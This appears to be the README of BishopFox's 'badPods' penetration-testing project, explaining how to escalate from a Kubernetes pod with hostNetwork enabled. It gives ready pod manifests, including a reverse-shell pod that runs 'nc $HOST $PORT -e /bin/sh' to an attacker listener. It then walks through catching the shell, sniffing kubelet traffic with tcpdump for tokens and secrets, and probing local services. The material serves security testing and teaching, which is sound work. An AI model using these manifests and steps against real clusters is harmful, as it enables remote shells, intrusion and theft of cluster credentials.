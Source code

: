 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: hostnetwork
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostnetwork
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: hostnetwork-revshell
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    imagePullPolicy: IfNotPresent
    name: hostnetwork-revshell
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
```
[pod-hostnetwork-only-revshell.yaml](pod-hostnetwork-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork-only/pod-hostnetwork-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt install tcpdump 
```
You now have a few options for next steps: 

See if kubelet read only port (10255/tcp) is open on the nodes IP or the docker host IP
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read only port is open, run tcpdump recording the output to a file for a few minutes

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run tcpdump with the -n flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop it, and read the file with tcpdump and use the -A flag to only show the printable characters

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in kube-system.


# Another option entirely: investigate local services
```bash
curl https://localhost:1234/metrics
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.
